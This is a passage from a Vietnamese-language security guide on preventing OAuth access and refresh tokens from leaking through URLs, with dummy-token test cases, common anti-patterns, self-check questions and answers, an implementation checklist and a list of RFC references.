| Magic link được submit sau user confirmation. | Check TTL, one-time, rate limit, CSRF/context và subject binding. |
| Pre-signed object URL bị chia sẻ. | Test giới hạn object/method/TTL, không coi nó là OAuth AT hoặc revoke được tức thì mặc định. |
| API request có AT valid nhưng sai `aud`/scope/tenant. | RS từ chối, không chỉ kiểm tra Bearer transport. |
| Server-side BFF token vault bị compromise. | Incident plan vẫn cần revoke/rotate AT/RT và session, dù browser không có token URL. |

### 16.1. Dùng test vectors giả thay vì credential thật

Không cần phát hành token production để chứng minh API **không nhận `?access_token=`**. Dùng chuỗi `AT_TEST` giả rồi kiểm tra:

```text
Input:  /api/orders?access_token=AT_TEST
Output: Không trả dữ liệu authenticated từ query.
Log:    Không ghi "AT_TEST", raw query hoặc full URL chứa token.

Input:  /oauth/callback?code=CODE_TEST&state=STATE_TEST
Output: Callback chỉ pass nếu code/state/PKCE thuộc transaction test.
Log:    Không ghi "CODE_TEST" hoặc "STATE_TEST".
```

Trong kiểm thử tích hợp, bảo đảm **gateway logs, APM/traces và application logs** đều được quan sát (trong phạm vi test có quyền), không chỉ kiểm tra response status.

### 16.2. Kiểm thử thời điểm xử lý callback

Tạo callback page cố ý chậm và một third-party analytics test stub. Nếu stub nhận raw `location.href` chứa code, test phải FAIL. Sau khi bỏ SDK hoặc xử lý callback tại BFF và redirect sạch trước render, chạy lại và bảo đảm không có raw code trong telemetry.

**Lưu ý:** việc callback `302/303` cũng có thể bị reverse proxy log URL ở request trước khi redirect; phải kiểm thử **tầng edge** và redaction riêng.

## 17. Những hiểu nhầm và anti-pattern thường gặp

| Anti-pattern/nhầm lẫn | Vì sao sai? | Phương án đúng |
| --- | --- | --- |
| “Dùng HTTPS nên `?access_token=` an toàn.” | TLS không ngăn edge/server logs, browser history, copy link hoặc script cùng origin. | AT trong `Authorization` header, HTTPS và log redaction. |
| “Fragment không gửi đến server nên có thể chứa RT.” | Fragment vẫn lộ qua JS/XSS/extension/history/share. | Không truyền RT bằng URL; dùng token endpoint body và storage phù hợp. |
| “JWT payload đã mã hóa nên nếu lộ URL không sao.” | JWT JWS thường chỉ ký, không mã hóa; dù opaque thì bearer credential vẫn dùng được. | Bảo vệ cả JWT lẫn opaque token, audience/scope/TTL/revocation. |
| “Chuyển `?access_token=` thành `/access_token/<AT>`.” | Path vẫn nằm trong request target/logs/history. | Header hoặc kiến trúc BFF. |
| “Đổi tên tham số thành `session_key` là đủ.” | Attacker/log thấy giá trị; security dựa trên semantics, không tên. | Không truyền credential bằng URL. |
| “Chỉ cần `Referrer-Policy: no-referrer`.” | Không ngăn logs, URL đích, JS, clipboard và extension. | Bỏ token URL; referrer policy chỉ defense in depth. |
| “Đã `history.replaceState` thì token chưa từng lộ.” | URL có thể đã được ghi trước JS cleanup. | Không phát token vào URL; revoke nếu đã leak. |
| “CORS bảo vệ Bearer token ở URL.” | CORS chỉ là browser response-sharing policy, không chặn logs/history hoặc các clients khác. | Transport/header/RS auth đúng chuẩn. |
| “Cache-Control: no-store xóa token khỏi mọi nơi.” | Chỉ ảnh hưởng cách cache response, không xóa request logs/history. | Log redaction, TTL/revoke và thiết kế không có token URL. |
| “PKCE làm access token trong URL an toàn.” | PKCE bảo vệ authorization code exchange, không bảo vệ AT/RT sau issuance. | Code Flow + PKCE, AT/RT ở back-channel/header/storage. |
| “Mọi OAuth code xuất hiện trong callback query đều là lỗi.” | Code Flow được thiết kế cho `code` front-channel có ràng buộc riêng. | Đúng flow, redaction, state, PKCE, one-time, redirect sạch. |
| “Bật implicit `response_type=token` để tránh backend.” | Bearer AT đi qua fragment/front-channel làm tăng lộ token. | Authorization Code + PKCE; cân nhắc BFF. |
| “Authorization header không thể bị log.” | Reverse proxy/APM có thể thu headers. | Redact `Authorization`, `Cookie`, body token endpoint ở mọi tầng. |
| “Chỉ xóa AT ở `localStorage` là đã revoke token.” | Bản sao attacker giữ vẫn có thể gọi RS. | AS-side revocation, kiểm tra RS enforcement và token rotation khi cần. |
| “Revoke RT0 cũ là mọi RT successor chết.” | Refresh family có thể còn RT mới; RFC 7009 200 cho unknown. | Revoke family/grant đúng AS capability, xử lý rotation race. |
| “Revoke AS database bảo đảm JWT AT bị RS chặn ngay.” | RS offline verifier không biết revoked state. | Denylist/grant check/introspection hoặc công bố until-expiry. |
| “Đưa token vào URL của signed link vì signed link cũng là token.” | Signed object URL là bearer capability giới hạn tác vụ; không hợp thức OAuth AT/RT qua URL. | Chỉ dùng link-specific token khi thật sự cần và threat-model rõ. |
| “One-time reset link có thể thực hiện tác vụ ngay trên GET.” | Link prefetch/scanner có thể kích hoạt trước user. | Landing GET và POST xác nhận/tương tác, one-time/TTL/rate limit. |
| “Chỉ cần redaction ở SIEM.” | Proxy, APM và logs gốc đã có credential. | Redact tại nguồn và kiểm soát retention/permissions. |
| “Một API có scope `orders:read` thì được đọc mọi order.” | Scope không thay owner/tenant/object authorization. | RS kiểm tra `iss`/`aud`/scope/expiry/revoke và quyền trên từng resource. |

## 18. Câu hỏi tự kiểm tra

1. Vì sao đặt Bearer access token trong URL query gây nguy cơ dù kết nối dùng HTTPS?
2. Query, path và fragment khác nhau thế nào về việc xuất hiện trong request target?
3. Fragment có thể lọt vào `Referer` không? Nếu không, vì sao fragment vẫn không an toàn để giữ RT?
4. Với mặc định `strict-origin-when-cross-origin`, HTTPS→HTTPS cross-origin thường gửi phần nào của referrer? Có phải mọi query đều bị gửi không?
5. `Referrer-Policy: no-referrer` giải quyết được những đường leakage nào? Nó có xóa browser history hoặc server logs không?
6. Vì sao RFC 6750 vẫn định nghĩa query transport nhưng không khuyến nghị dùng?
7. API nên dùng header nào cho OAuth Bearer access token?
8. HTTP body của token endpoint có được phép chứa refresh token không? Đâu là endpoint phù hợp?
9. Authorization code trong callback query có đồng nghĩa access token bị đưa ra front-channel không?
10. PKCE `S256` giảm rủi ro nào và không giảm rủi ro nào?
11. Vì sao phải kiểm tra `state`, expected issuer và redirect URI ngoài PKCE?
12. `history.replaceState` có đảm bảo token trong URL chưa từng bị log không?
13. Tại sao analytics gọi `location.href` trong callback có thể làm rò code?
14. Vì sao một reverse proxy có thể thấy path/query dù client–gateway dùng HTTPS?
15. BFF giúp giảm phơi lộ AT/RT ở browser nhưng không giải quyết hoàn toàn XSS như thế nào?
16. Một URL reset-password chứa one-time challenge khác OAuth AT ở đâu?
17. Vì sao magic/reset link không nên thực hiện hành động cuối cùng chỉ qua GET?
18. Khi token bị lộ vào log, việc sửa source code đã đủ đóng sự cố chưa?
19. Nếu AS revoke JWT AT nhưng RS chỉ verify offline, token có thể tiếp tục hoạt động đến đâu?
20. DPoP/mTLS có cho phép bỏ qua revocation khi token bị lộ không?
21. Nếu ứng dụng chuyển `?access_token=` sang `/orders/<access-token>`, liệu đã an toàn hơn căn bản chưa?
22. Vì sao server nên từ chối Bearer query nếu hệ thống đã chọn chỉ hỗ trợ header?
23. Người dùng gửi URL signed download cho người khác: liệu đó có phải OAuth AT không và ai có thể tải file?
24. Token có scope đúng và chưa bị revoke có được truy cập đối tượng của tenant khác không?

**Gợi ý trả lời:**

1. HTTPS chỉ bảo vệ vận chuyển qua TLS; token vẫn có thể đi vào logs, history, copy/share, analytics và các điểm kết thúc TLS.
2. Path/query đi tới HTTP server, fragment thường không; cả ba vẫn có thể thấy trong browser URL hoặc các bề mặt khác.
3. Fragment không được gửi trong `Referer` chuẩn, nhưng JS/XSS/extension/history/share vẫn có thể nhìn thấy.
4. Thường chỉ gửi **origin** trên cross-origin HTTPS→HTTPS; không thể khẳng định luôn lộ full query. Chính sách khác có thể làm thay đổi.
5. Giảm `Referer`; không xóa URL khỏi logs/history/analytics hoặc URL đích có token.
6. RFC 6750 có phương thức tương thích nhưng lưu ý nguy cơ lưu/ghi URL và không khuyến nghị dùng.
7. `Authorization: Bearer <access_token>` trên HTTPS, theo profile RS được hỗ trợ.
8. Có, trong `POST /token` của AS với `grant_type=refresh_token`; phải bảo vệ body/logs.
9. Không. Code là credential một lần cần PKCE/client binding để đổi token; không phải Bearer AT trực tiếp gọi API.
10. PKCE bảo vệ code interception/exchange, không bảo vệ AT/RT sau issuance hoặc XSS lấy code **và** verifier.
11. State chống callback injection/login CSRF, issuer binding giảm mix-up, redirect URI giới hạn nơi nhận authorization response.
12. Không. Nó làm sạch history entry/URL hiện tại sau khi JS chạy, không xóa request logs hoặc các bản sao đã tạo.
13. Analytics có thể gửi code/state tới vendor trước khi RP xử lý callback.
14. TLS thường kết thúc tại gateway/proxy; thành phần đó thấy request target, có thể log hoặc forward.
15. BFF giữ token server-side nhưng XSS vẫn có thể dùng phiên còn hoạt động để gửi API request; backend vault cũng cần bảo vệ.
16. Link challenge chỉ phục vụ một hành động, TTL ngắn/một lần, không phải AT/RT quyền truy cập nhiều API requests.
17. Email scanner/prefetch có thể GET link, gây consume token hoặc thao tác ngoài ý user.
18. Chưa. Cần revoke/rotate, xem RS enforcement, lịch sử truy cập, logs/backup/tickets và theo dõi incident.
19. Đến `exp` (có xét clock-skew policy) nếu không có revocation-aware check.
20. Không. Sender-constraining giảm replay khi attacker không giữ key/cert, nhưng không thay revoke.
21. Chưa. Path vẫn hiện trong request target, logs/history và redirects.
22. Để không duy trì transport không an toàn, tránh fallback/ambiguity và ngăn clients phụ thuộc query token.
23. Không phải OAuth AT; đó là bearer capability được ký/giới hạn object/method/TTL, ai có URL còn hạn có thể truy cập theo policy.
24. Không. RS còn kiểm tra audience, scope, owner/tenant/object authorization theo dữ liệu nghiệp vụ.

## 19. Checklist triển khai phòng chống URL token leakage

### 19.1. Token issuance và transport

- [ ] OAuth Bearer AT tới RS qua **`Authorization` header**, không gửi `?access_token=` hay path/fragment.
- [ ] Refresh token chỉ đến **AS token endpoint** qua grant/request body chuẩn, không đưa vào link/email/redirect.
- [ ] OIDC ID Token không được dùng như API AT hoặc đưa tùy tiện vào URL.
- [ ] Authorization Code Flow mới dùng **PKCE `S256`**, `state` và issuer/redirect binding theo profile.
- [ ] Không triển khai implicit để phát Bearer AT trong fragment cho ứng dụng mới nếu Code + PKCE phù hợp.
- [ ] AT có `aud`/scope hẹp, TTL phù hợp và revocation/sender-constraining theo threat model.
- [ ] Không đưa raw OAuth AT/RT vào QR, custom URI/deep link hoặc post-logout redirect.

### 19.2. Browser, callback và BFF

- [ ] Callback chỉ nhận `code`/`state` (hoặc response đúng profile), xử lý ở trusted RP/SDK trước khi lập session.
- [ ] Callback có **`Referrer-Policy: no-referrer`**, cache policy phù hợp, hạn chế third-party resources trước xử lý.
- [ ] Sau callback, chuyển về **URL sạch** không code/state/token; hiểu rằng cleanup không xóa logs cũ.
- [ ] **`redirect_uri`** exact-match/allowlist theo AS registration; chặn open redirect/unsafe `returnUrl`.
- [ ] SPA không gửi `location.href` đầy đủ đến analytics hoặc third-party trackers khi URL có transaction values.
- [ ] Nếu dùng BFF, AT/RT giữ server-side trong token vault; browser dùng session cookie `Secure`/`HttpOnly`/`SameSite` phù hợp.
- [ ] Browser session có CSRF/Origin protections, session rotation/logout và chống XSS (CSP/Trusted Types khi hỗ trợ).
- [ ] Public SPA/native không nhúng shared client secret; dùng client profile/PKCE và bảo vệ RT replay theo RFC 9700.

### 19.3. Proxy, Resource Server và observability

- [ ] API không hỗ trợ bearer token query/path fallback; resolver và routes reject credential ở vị trí sai.
- [ ] Resource Server vẫn verify `iss`, `aud`, type, `exp`, scope, revocation/sender proof và object-level authorization.
- [ ] Gateway/CDN/WAF/access logs **không ghi raw query chứa token/code**; sanitize sớm trước log/export.
- [ ] Không log `Authorization`/`Cookie` headers, token endpoint body, client secret hoặc code verifier trong APM/errors.
- [ ] Sử dụng route templates/structured metadata an toàn cho metrics; không dùng raw URL làm label.
- [ ] Kiểm soát HTTP caching của API private/authenticated responses và callback/token-related responses.
- [ ] Không tưởng `Referrer-Policy` hoặc `Cache-Control` giải quyết mọi đường lộ; bổ sung thiết kế token transport đúng.
- [ ] Test cả gateway và direct RS route/gRPC/internal endpoints để không bypass bảo vệ.

### 19.4. Link-token và URL ngoại lệ

- [ ] Reset/magic/invite link dùng **token riêng đúng tác vụ**, entropy cao, TTL ngắn, one-time, rate limit.
- [ ] Không thực hiện thao tác cuối cùng chỉ trên **GET** nếu scanner/link preview có thể kích hoạt.
- [ ] Landing page không tải third-party analytics trước xác minh; bật referrer/cache policy phù hợp.
- [ ] Nếu cần signed download URL, giới hạn object/method/TTL và kiểm tra khả năng revoke thực tế của storage.
- [ ] Không sử dụng link-token ngoại lệ làm lý do truyền OAuth AT/RT qua URL.

### 19.5. Incident response và kiểm thử

- [ ] Có runbook phân loại credential leak: AT/RT/ID Token/code/session/link token.
- [ ] Khi phát hiện leak, kiểm soát thêm bản sao trong logs/history/analytics/tickets/backup theo policy.
- [ ] Revoke AT theo AS/RS capability, xử lý RT family/grant đúng phạm vi, không nhầm RFC 7009 200 là chứng cứ mọi successor đã chết.
- [ ] Với JWT RS offline, ghi rõ **cửa sổ đến `exp`**; nếu cần chặn sớm phải bổ sung revocation-aware enforcement.
- [ ] Test referrer behavior với cùng origin/cross-origin policy, không mặc định mọi browser gửi query ra bên ngoài.
- [ ] Test query/path/fragment/redirect token exposure, URL analytics, proxy/A PM, HTTP error messages và link preview.
- [ ] Test OAuth callback code/state/PKCE/redirect exact match, retry/replay, issuer mix-up và session/tenant isolation.
- [ ] Test CORS không bị hiểu nhầm là authentication, sender-constrained AT không bị chấp nhận như Bearer thường.
- [ ] Đo leak events/token exposure window, revocation propagation lag và log redaction coverage.
- [ ] Chỉ dùng **dummy tokens** trong automated tests và documentation; không đưa credentials production vào mẫu log hoặc tài liệu.

## 20. Tài liệu nền tảng

- **RFC 6750 — The OAuth 2.0 Authorization Framework: Bearer Token Usage:** `2.1` Authorization header, `2.2` form body, `2.3` URI query parameter không được khuyến nghị; security considerations.
- **RFC 9700 — Best Current Practice for OAuth 2.0 Security:** Authorization Code + PKCE, bảo vệ redirect/callback và token leakage, giới hạn các flow cũ, refresh token replay protection.
- **RFC 6749 — The OAuth 2.0 Authorization Framework:** Authorization Code Grant, redirect_uri, authorization/token endpoints, access/refresh tokens và OAuth roles.
- **RFC 7636 — Proof Key for Code Exchange:** `S256`, code verifier/challenge và giảm rủi ro code interception.
- **RFC 9207 — Authorization Server Issuer Identification:** ràng buộc issuer trong authorization response khi hỗ trợ, giảm AS mix-up.
- **RFC 9101 / RFC 9126 — JWT-Secured Authorization Request / Pushed Authorization Requests:** một số phương thức bảo vệ request parameters và giảm phơi lộ authorization request tùy profile AS/client hỗ trợ.
- **RFC 7009 — OAuth 2.0 Token Revocation:** thu hồi AT/RT theo capability AS, token_type_hint, semantics `200 OK` với token unknown.
- **RFC 7662 — OAuth 2.0 Token Introspection:** RS kiểm tra `active` của opaque hoặc access token revocation-aware, chú ý cache staleness.
- **RFC 7519 / RFC 9068:** JWT và JWT Profile for OAuth 2.0 Access Tokens; issuer, audience, token purpose, expiry và bảo vệ JWT.
- **RFC 9449 / RFC 8705:** DPoP và mTLS sender-constrained access token; giảm replay khi chỉ lộ chuỗi token nhưng không thay revocation.
- **RFC 8628 — OAuth 2.0 Device Authorization Grant:** `user_code`/`device_code`, `verification_uri` và `expires_in` trong luồng thiết bị nhập liệu hạn chế.
- **RFC 9111 — HTTP Caching:** cache directives và cơ chế lưu response, phân biệt với URL history/logs.
- **OpenID Connect Core 1.0 / OAuth 2.0 Form Post Response Mode / JARM:** các OIDC response types/modes, ID Token front-channel và hash binding trong flow liên quan.
- **MDN: Referrer-Policy, History API, URL fragments, Content Security Policy và Fetch API:** hành vi browser và giới hạn các biện pháp phòng vệ.
- **OWASP OAuth 2.0 Cheat Sheet / Session Management / Forgot Password Cheat Sheet:** credential leakage, callback, URL token risks, session cookies, reset/magic link an toàn.

**Ghi nhớ:** **URL là địa chỉ thường được hiển thị, chuyển tiếp và ghi log — không phải kho bí mật cho OAuth token.** Đặt Bearer **access token hoặc refresh token** vào query/path/fragment/redirect có thể khiến credential rò qua browser history, proxy/CDN/APM, referrer tùy policy, analytics, link preview hoặc XSS. Với API, ưu tiên **`Authorization: Bearer` qua HTTPS**; với RT, dùng **AS token endpoint**; với đăng nhập, dùng **Authorization Code + PKCE**, quản lý callback `code`/`state` và redirect sạch. `Referrer-Policy`, CSP, cache headers, BFF và log redaction là **phòng vệ bổ sung**, không sửa được lỗi thiết kế token trong URL. Khi rò rỉ đã xảy ra, phải **xác định loại token, phạm vi, revoke/rotate phù hợp, kiểm tra RS enforcement và xử lý bản sao trong logs/history/analytics**, đồng thời bảo đảm **issuer, audience, scope, thời hạn và quyền trên từng tài nguyên** vẫn được kiểm chứng.
